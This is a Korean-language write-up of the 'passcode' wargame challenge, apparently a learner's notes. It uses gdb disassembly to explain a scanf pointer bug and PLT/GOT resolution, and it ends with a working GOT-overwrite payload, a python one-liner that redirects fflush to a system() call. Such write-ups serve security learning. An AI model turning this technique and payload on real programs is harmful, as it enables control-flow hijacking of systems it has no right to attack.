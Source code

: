 #passcode문제. 어려웠다. 

cat passcode.c
gdb ./passcode
b login
b welcome
run
disas




1. 	sub    $0x88,%esp 
	이것이 name 배열 변수를 지정해준 것이 아닌가 의심을 할 수 있다.


	int a=\xbfbfbfbf;   //a=\xbfbfbfbf으로 초기화

	scanf("%d",&a);      //a라는 변수의 이름에 해당하는 주소를 참조해서 그 주소에 입력받은 값 저장

	scanf("%d",a);        //a(\xbfbfbfbf)이라는 주소에 입력받은 값 저장

	전자는 a변수의 주소에 입력값을 저장하는 것이다. %d이니까 십진수의 값일 것이다.
	후자는 a라는 주소에 입력값을 저장하는 것이다. 이것을 명심하자. 



2. 0x0804862a <+33>:	mov    $0x80487dd,%eax
   0x0804862f <+38>:	lea    -0x70(%ebp),%edx
   0x08048632 <+41>:	mov    %edx,0x4(%esp)
   0x08048636 <+45>:	mov    %eax,(%esp)

   이 부분에 주목 . scanf가 불리기 전에 보면은 
   ebp-0x70을 edx레지스터에 저장하고 
   edx, eax에 담긴 값을 각각 esp+4, esp에 값을 옮겨놓는다. 
   그리고 나서 scanf를 호출하는 것을 보면 edx와 eax를 scanf의 전달인자로 사용함을 알 수 있다.
	
	eax를 확인해보자.

	>> x/s 0x80487dd. "100%s"이다. 

	그렇다면 edx는 -0x70(%ebp)은 name[100]이 시작되는 주소

	name[100]은  -0x70(%ebp) ~ -0xc(%ebp)에 위치

	>> disas login
	

	 0x08048577 <+19>:	mov    $0x8048783,%eax
  	 0x0804857c <+24>:	mov    -0x10(%ebp),%edx
  	 0x0804857f <+27>:	mov    %edx,0x4(%esp)
   	 0x08048583 <+31>:	mov    %eax,(%esp)

	첫번째 scanf의 확인을 해보니까 passcode를 받는 주소의 위치를 확인해보니 -0x10(%ebp) 레지스터 안의 값이다. 즉, name buffer의 마지막 4byte에 적혀있는 값을 이용하면 될 듯하다. lea가 아닌 mov 임에 주목.


3.  plt와 got에 대해서 대강 이해해보자. 
 	plt는 외부 프로시져 연결 table을 뜻한다. plt를 통해 다른 라이브러리에 있는 프로시져를 호출 할 수 있다. 
 	got는 plt가 참조하는 테이블, 프로시저들의 주소가 들어있다. 

 	캐시의 동작원리와 비슷한듯하다. 

 	함수 호출(plt 호출) -> Got로 jump(got에 실제함수의 주소가 들어있다.)
 	1) 첫번째 호출: Got에 함수의 주소가 기록되어있지 않다. 그렇다면 +6에서 어떠한 과정을 통해서 그 함수의 주소를 알아서 불러낸다.
 	2) 둡너째 호출: 첫번째에서 알아 낸 주소로 점프한다. 

 	그렇다면 우리는 fflush가 plt로 호출될때는 exploit하자. 
	
	0x08048593 <+47>:	call   0x8048430 <fflush@plt>
	이부분을 통해서 fflush@plt의 주소를 알아낼 수 있다. 

   	>>x/10i 0x8048430   이 커맨드로 기계어를 호출하자

   	0x8048430 <fflush@plt>:	jmp    *0x804a004
   	0x8048436 <fflush@plt+6>:	push   $0x8
   	0x804843b <fflush@plt+11>:	jmp    0x8048410
	
	이렇게 되어있다. 

	0x804a004여기로 점프하니까 여기를 확인해보자. 


	*0x804a004라고 적혀있으니 이 값의 주소로 점프하라는 것 같다. *이 붙어있는 이유는 포인터라서 그런 것으로 추축이 된다. 

	>> x/x *0x804a004
	0x8048436 <fflush@plt+6>:	0x68 
	으로 저안의 값으로 이동한 것 같다.

	즉 plt -> got안의 값이 아직 없어서 주소를 찾는 과정으로 점프하는 것 같다. 
	우리는 got의 주소가 필요

	got의 주소는 
	>> x/x 0x804a004
	0x804a004 <fflush@got.plt>:	0x36 
	got의 주소를 찾았다. 

	0x804a004이다. 

	그러므로 payload는 name에 96개의 더미값을 넣고 0x804a004을 4byte string으로 채워준다. 그러면 passcode는 fflush got의 주소값을 덮어씌우게 되는 것이다. 마지막 4byte의 주소안의 값을 새로 써주는 거다. 입력값으로. 

	그 입력값을 

	>> disas login

	return한번 더 쳐서 끝까지 확인하자 그러면 이 부분을 확인할 수 있다.
	0x080485e3 <+127>:	movl   $0x80487af,(%esp)
  	0x080485ea <+134>:	call   0x8048460 <system@plt>

	그러므로 fflush의 got에다가 0x080485e3 이것을 씌운다면 fflush대신에 우리가 원하는 flag를 바로 출력하는 system call을 호출할 수 있게 되는 것이다.


4. 134514147 = 0x080485e3이다. scanf가 십진법 정수를 받기 때문에 바꾸어서 사용한 것이다. 
   Answer: (python -c 'print "A"*96+"\x04\xa0\x04\x08"+"134514147"') | ./passcode
   
   그렇다면 별거 아니다 
   시작부분을 잘 생각해보고, 더미값을 쭉넣고 그리고 나서 그 주소에 필요한것을 덮어 씌우면 된다. 

   x/s, x/10i이런것을 잘활용하자. 
   x/s 그 주소의 값을 스트링으로 보여준다.


 
5. 
	write권한이 있는 메모리 주소를 가리키게 하고 이곳에 원하는 함수 이름을 적는다면

	참조되지 않은 함수를 호출할 수 있는 익스플로잇이 가능하다고 하네요

	출처: http://noisivohees.tistory.com/26?category=615633 [bbbbbbkim_not_using]
   

   scanf의 동작원리를 잘 생각하자 











reference.
http://noisivohees.tistory.com/25_해설
http://noisivohees.tistory.com/22   _ plt, got 정리
http://noisivohees.tistory.com/26?category=615633_ plt, got 정리2